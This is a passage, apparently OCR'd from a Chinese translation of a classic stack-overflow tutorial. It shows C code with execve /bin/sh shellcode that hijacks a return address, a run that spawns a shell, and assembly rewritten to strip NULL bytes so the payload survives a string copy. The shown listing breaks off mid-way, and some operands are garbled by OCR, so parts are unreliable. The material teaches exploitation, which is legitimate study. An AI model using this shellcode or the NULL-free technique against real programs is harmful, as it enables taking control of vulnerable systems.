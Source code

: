 ```
.
```

testsc.c

```c
char shellcode[] =
    "\xeb\x2a\x5e\x89\x76\x08\xc6\x46\x07\x00\xc7\x46\x0c\x00\x00\x00"
    "\x00\xb8\x0b\x00\x00\x00\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80"
    "\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xd1\xff\xff"
    "\xff\x2f\x62\x69\x6e\x2f\x73\x68\x00\x89\xec\x5d\xc3";

void main() {
    int *ret;

    ret = (int *)&ret + 2;
    (*ret) = (int)shellcode;

}
```

```
[aleph1]$ gcc -o testsc testsc.c
[aleph1]$ ./testsc
$ exit
[aleph1]$
```

成了! 但是这里还有一个障碍, 在多数情况下, 我们都是试图使一个字符缓冲区溢出. 那么在我们shellcode中的任何`NULL`字节都会被认为是字符串的结尾, 复制工作就到此为止了. 对于我们的破解工作来说, 在shellcode里不能有`NULL`字节. 下面来消除这些字节,同时把代码精简一点.


问题指令： 替代方案：

```asm
movb x0,0x7(%esi) xorl %eax,%eax
molv x0,0xc(%esi) movb %eax,0x7(%esi)
                  movl %eax,0xc(%esi)
-------------------------------------
movl xb,%eax      movb xb,%al
-------------------------------------
movl x1, %eax     xorl %ebx,%ebx
movl x0, %ebx     movl %ebx,%eax
                  inc %eax
```

改进后的代码：

shellcodeasm2.c

```c
void main() {
    __asm__("
        jmp 0x1f # 2 bytes
        popl %esi # 1 byte
        movl %esi,0x8(%esi) # 3 bytes
        xorl %eax,%eax # 2 bytes
        movb %eax,0x7(%esi) # 3 bytes
        movl %eax,0xc(%esi) # 3 bytes
        movb xb,%al # 2 bytes
        movl %esi,%ebx # 2 bytes
        leal 0x8(%esi),%ecx # 3 bytes
        leal 0xc(%esi),%edx # 3 bytes
        int x80 # 2 bytes
        xorl %ebx,%ebx # 2 bytes
        movl %ebx,%eax # 2 bytes
        inc %eax # 1 bytes
        int x80 # 2 bytes
        call -0x24 # 5 bytes
```